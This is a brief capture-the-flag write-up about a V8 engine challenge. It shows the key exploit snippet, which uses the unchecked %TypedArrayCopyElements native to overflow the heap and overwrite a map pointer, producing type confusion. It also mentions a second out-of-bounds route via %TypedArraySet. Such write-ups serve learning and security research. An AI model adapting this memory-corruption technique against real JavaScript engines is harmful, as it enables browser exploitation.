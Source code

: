 In this challenge I abused heap overflow with `%TypedArrayCopyElements` that didn't check the bounds.

Luckily, during CONFIDENCE CTF i didn't notice you could use clean OOB write and decided to go with heap overflow to make confusion between map and array with doubles.
So once I confused the object, i just copied the exploit I used before ;)

The "meat" of the exploit is shown below:

```
var w = new Uint8Array(10);
var z = new Uint8Array(1000);

var sice_obj = {"a":0x100.smi2f(),"b":BigInt(0x13377331).i2f(),"c":BigInt(0x13377331).i2f(),"d":BigInt(0x13377331).i2f()}

z.fill(0x91,0,1000);
z[197] = 0x18; // two lower bytes dictate the type of the object (it's a map ptr)
z[196] = 0x91;
//%DebugPrint(sice_obj);


%TypedArrayCopyElements(w,z,198);
```

P.S fun fact, you could abuse another function  - `%TypedArraySet` for OOB if only it didn't have mismatched amount of arguments in declaration and in implementation
